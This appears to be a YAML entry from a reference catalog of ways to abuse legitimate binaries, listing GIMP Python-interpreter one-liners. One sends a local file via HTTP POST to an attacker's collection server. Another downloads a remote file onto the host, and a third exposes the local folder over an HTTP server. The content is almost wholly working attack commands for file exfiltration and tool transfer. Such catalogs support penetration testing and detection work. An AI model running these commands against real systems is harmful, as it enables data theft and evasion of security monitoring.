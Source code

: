 ```yaml
---
description: The binary hangs after executing the Python code and can be terminated pressing ``ctrl-c``.
functions:
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["$URL"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["$URL"], e["$LFILE"])'
  server:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
---
```

